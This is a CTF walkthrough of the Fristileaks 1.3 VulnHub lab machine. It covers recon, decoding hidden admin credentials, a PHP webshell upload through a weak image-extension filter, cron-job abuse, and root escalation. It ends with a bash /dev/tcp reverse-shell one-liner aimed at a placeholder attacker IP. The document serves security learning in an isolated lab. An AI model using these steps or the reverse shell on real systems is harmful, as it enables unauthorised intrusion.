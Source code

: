 Title: Frisitleaks 1.3
Date: 2018-12-01
Modified: 2018-12-01
Category: ctf
Tags: ctf, vulnhub
Slug: fristileaks
Authors: Riley
Summary: Guide to the Fristileaks 1.3 VulnHub box.

## Description

A small VM made for a Dutch informal hacker meetup called Fristileaks.
Meant to be broken in a few hours without requiring debuggers, reverse engineering, etc..

## Setup

The virtual machine requires DHCP, and you have to manually set the machine's MAC address to **08:00:27:A5:A6:76**.
My setup runs on an isolated network `10.100.100.0/24`, and the attacking box is at `10.100.100.99/24`.
You can find the box [here][0] to follow along or do yourself.


# Reconnaissance

First we should verify that the box is online. After, we can determine what services are running on the target.

#### Netdiscover
![netdiscover](/images/ctf/fristileaks/netdiscover.png "Netdiscover")

#### Nmap
```text
# Nmap 7.70 scan initiated  as: nmap -sC -sV -oA nmap/fristileaks 10.100.100.133
Nmap scan report for 10.100.100.133
Host is up (0.00032s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
```

From this, we can determine that the target is running an Apache webserver on port 80.
Further scans did not reveal any other external services.

Using a browser to navigate to the site reveals a colourful webpage, but nowhere obvious to go:

![Fristileaks homepage](/images/ctf/fristileaks/homepage.png "Fristileaks homepage")

There is very little content on this page, however nmap found a `http-robots.txt` file that had some directories listed.
Viewing any of them reveals a sneaky trick, and another dead end.

![Not the URL we are looking for](/images/ctf/fristileaks/droid.png "Not the URL we are looking for")

Navigating to `/admin` only leads to a 404 Not Found message, so we will have to input other possible directory or URI names.
Fortunately, we don't have to brute force this puzzle.
By simply going to `/fristi`, one will be rewarded with a hidden admin portal asking for credentials.

![Fristileaks hidden admin page](/images/ctf/fristileaks/adminpage.png "Fristileaks hidden admin page")


# Exploitatin && Gaining Access

Attempting to bypass the authentication using typical methods (such as SQLi or default creds) doesn't seem to work.
While taking a look at the page source, we find a few interesting comments.

One a TODO list by **eezeepz**,

![Comment from eezeepz](/images/ctf/fristileaks/admin-comment.png "Comment from eezeepz")

and the other is Base64 encoded.

![Base64 encoded something](/images/ctf/fristileaks/admin-base64.png "Base64 encoded something")

Decoding the B64 text reveals a PNG image with the text `keKkeKKeKKeKkEkkEk`.
Using `eezeepz:keKkeKKeKKeKkEkkEk` for credentials does work, and redirects us to `/fristi/login_success.php`, with a link to `/fristi/upload.php`.
Progress!

There are some minor restrictions.
The file uploaded must be a PNG, JPG, or GIF image.
Fortunately this is a very simple filter, and easily bypassed.

Simply: locate your PHP webshell of choice (such as `php-reverse-shell.php`, located in `/usr/share/webshells/php` in Kali); copy it to your working directory and modify as needed; rename the file with .png appended (`php-reverse-shell.php.png`); upload the shell, and navigate to `/fristi/uploads/<your-file-name-here>.php.png`.

![Uploading webshell](/images/ctf/fristileaks/upload.png "Uploading webshell")

And just like magic, we now have a shell as the **apache** user account!

![Webshell!](/images/ctf/fristileaks/webshell.png "Webshell!")


# Post-Exploitation

The apache user has very limited privileges, so we should make it our goal to quickly gain access to another user account.

There are three user accounts we could compromise:

![User accounts](/images/ctf/fristileaks/home.png "/home")

Since we don't have access to any directory but `/home/eezeepz`, we will have to start there.

Navigating to **eezeepz**'s home directory, there is a slough of system binaries and a `notes.txt` file:

![Content of notes.txt](/images/ctf/fristileaks/notes.png "Content of notes.txt")

The instructions are pretty straightforward.
By listing binaries using full paths in `/usr/bin`, `/home/admin`, and presumably `/home/eezeepz` in a file called `/tmp/runthis`, a cronjob will execute the binaries every minute as **admin**.

My solution to this was to execute `echo "/home/admin/chmod 707 /home/admin" >> /tmp/runthis`, which will give us read, write, and execute privileges in `/home/admin` as any user.

![Modifying /home/admin privileges](/images/ctf/fristileaks/chmod.png "Modifying /home/admin privileges")


# Privilege Escalation

Taking a look into the newly accessible directory reveals the previously noted system binaries, some python scripts, and two text files `cryptedpass.txt` (owned by admin) and `whoisyourgodnow.txt` (owned by fristigod).

The contents of the text files appear to be the output of the `cryptpass.py` script.

![cryptedpass.txt/cryptpass.py](/images/ctf/fristileaks/cryptpass.png "The contents of cryptedpass.txt and cryptpass.py")

The python script takes a string argument, encodes it in Base64, and then reverses the string and modifies it with ROT13.
This isn't encryption; it's encoding, and passwords should never be encrypted or encoded.

The process is easy to reverse,  especially using [CyberChef][1].

![Reversing cryptedpass.txt](/images/ctf/fristileaks/rev-cryptedpass.png "Reversing cryptedpass.txt")
![Reversing whoisyourgodnow.txt](/images/ctf/fristileaks/rev-whoisyourgodnow.png "Reversing whoisyourgodnow.txt")

At this point I uploaded a PHP reverse shell and caught it with Ncat, as the webshell I used isn't a terminal and thus cannot use `su` or `sudo`.

![su admin](/images/ctf/fristileaks/su-admin.png "su admin")
![su fristigod](/images/ctf/fristileaks/su-fristigod.png "su fristigod")


# Getting Root

Despite being called **admin**, I determined that the account did not have sufficient rights to use sudo.
**Fristigod**, on the other hand, has access to a single binary.

![One true binary](/images/ctf/fristileaks/fristigod-sudo-l.png "One true binary")

Fristigod may run sudo as user **fristi** to execute `/var/fristigod/.secret_admin_stuff/doCom`.
So what is `doCom`?
In our case, it's a SUID binary owned by root that executes shell commands that are fed to it.

![doCom](/images/ctf/fristileaks/doCom.png "doCom")

Let's verify that it runs as root.

![Testing execution](/images/ctf/fristileaks/exec-test.png "Testing execution")

Excellent!

This means that we can execute a simple reverse shell as root. I like using `bash -i >& /dev/tcp/<ATTAKCER-IP>/<PORT> 0>&1` from [pentestmonkey][2].

![Getting root](/images/ctf/fristileaks/get-root.png "Getting root")

![Got root](/images/ctf/fristileaks/got-root.png "Got root")
 


[0]: https://www.vulnhub.com/entry/fristileaks-13,133/
[1]: https://github.com/gchq/CyberChef
[2]: http://pentestmonkey.net/